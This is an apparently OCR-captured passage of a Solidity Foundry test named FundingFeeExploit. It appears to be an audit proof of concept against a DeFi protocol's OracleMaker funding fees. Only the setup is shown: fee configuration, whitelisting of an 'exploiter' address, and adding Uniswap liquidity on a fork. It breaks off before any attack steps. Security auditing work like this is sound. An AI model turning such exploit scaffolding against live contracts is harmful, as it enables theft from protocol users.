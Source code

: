 ```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity >=0.8.0;

import "forge-std/Test.sol";
import "../spotHedgeMaker/SpotHedgeBaseMakerForkSetup.sol";
import { OracleMaker } from "../../src/maker/OracleMaker.sol";
import "../../src/common/LibFormatter.sol";
import { SignedMath } from "@openzeppelin/contracts/utils/math/SignedMath.sol";

contract FundingFeeExploit is SpotHedgeBaseMakerForkSetup {

    using LibFormatter for int256;
    using LibFormatter for uint256;
    using SignedMath for int256;

    address public taker = makeAddr("Taker");
    address public exploiter = makeAddr("Exploiter");
    OracleMaker public oracle_maker;

    function setUp() public override {
        super.setUp();
        //create oracle maker
        oracle_maker = new OracleMaker();
        _enableInitialize(address(oracle_maker));
        oracle_maker.initialize(marketId, "OM", "OM", address(addressManager), priceFeedId, 1e18);
        config.registerMaker(marketId, address(oracle_maker));

        //PARAMETERS SETUP

        //fee setup
        //funding fee configs (taken from team tests) 
        config.setFundingConfig(marketId, 0.005e18, 1.3e18, address(oracle_maker));
        //borrowing fee 0.00000001 per second as in team tests
        config.setMaxBorrowingFeeRate(marketId, 10000000000, 10000000000);
        oracle_maker.setMaxSpreadRatio(0.1 ether); // 10% as in team tests
        

        //whitelist users
        oracle_maker.setValidSender(exploiter,true);
        oracle_maker.setValidSender(taker,true);
        

        //add more liquidity ($20M) to uniswap pool to simulate realistic slippage
        deal(address(baseToken), spotLp, 10000e9, true);
        deal(address(collateralToken), spotLp, 20000000e6, true);
        vm.startPrank(spotLp);
        uniswapV3NonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(collateralToken),
                token1: address(baseToken),
                fee: 3000,
                tickLower: -887220,
                tickUpper: 887220,
                amount0Desired: collateralToken.balanceOf(spotLp),
                amount1Desired: baseToken.balanceOf(spotLp),
                amount0Min: 0,
                amount1Min: 0,
                recipient: spotLp,
                deadline: block.timestamp
            })
        );
 

```